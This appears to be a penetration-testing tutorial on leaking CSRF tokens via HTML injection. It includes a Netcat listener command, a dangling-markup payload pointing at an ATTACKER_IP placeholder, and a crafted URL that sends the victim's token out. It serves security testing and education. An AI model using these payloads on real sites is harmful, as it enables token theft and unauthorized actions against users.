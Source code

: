 # Cross-Site Request Forgery (POST-based)

Cross-Site Request Forgery (CSRF) tokens are essential for protecting web applications from unauthorized actions. However, if an application is vulnerable to HTML injection or XSS, attackers can exploit these vulnerabilities to leak CSRF tokens. Understanding how to identify and exploit these weaknesses is crucial for penetration testers.

***

#### 🔍 Understanding CSRF Token Leakage

CSRF tokens are typically included in POST requests to validate that the request is legitimate. If an attacker can inject HTML into a page, they may be able to extract the CSRF token and use it for malicious purposes.

**Key Characteristics of CSRF Token Leakage:**

* **HTML Injection Vulnerabilities**: If an application allows HTML injection, it can be exploited to leak sensitive information.
* **Remote Exploitation**: This type of attack does not require the attacker to be on the same local network as the victim.

***

#### 🧪 Testing for CSRF Token Leakage

To test for CSRF token leakage through HTML injection, follow these steps:

1. **Log into the Target Application**: Use valid credentials to access the application.
2.  **Identify HTML Injection Point**: Navigate to a feature that reflects user input, such as the account deletion confirmation page. Attempt to inject HTML into the input field. For example:

    ```html
    <h1>h1<u>underline<%2fu><%2fh1>
    ```
3. **Inspect the Source**: Check the page source to confirm that your HTML injection was successful. You should see your injected HTML reflected in the source code.
4.  **Set Up a Listener**: Use Netcat to listen for incoming connections on a specified port:

    ```bash
    nc -nlvp 8000
    ```
5.  **Craft the Payload**: Create a payload that will send the CSRF token to your listening machine. For example:

    ```html
    <table%20background='%2f%2f<ATTACKER_IP>:PORT%2f
    ```
6.  **Trigger the Payload**: While logged in as the victim, navigate to the URL that includes your crafted payload. For example:

    {% code overflow="wrap" %}
    ```html
    http://csrf.example.com/app/delete/%3Ctable background='%2f%2f<ATTACKER_IP>:PORT%2f
    ```
    {% endcode %}

    This will cause the victim's browser to make a request to your Netcat listener, leaking the CSRF token.

***

#### 📜 Example of CSRF Token Leakage

1. **Login to the Target Application**: Use valid credentials to log in.
2. **Inject HTML**: Input HTML into the email field on the delete account confirmation page.
3. **Set Up Netcat**: Start listening for incoming connections.
4. **Trigger the Attack**: Open the crafted URL while logged in. You should see the CSRF token appear in your Netcat terminal.

\
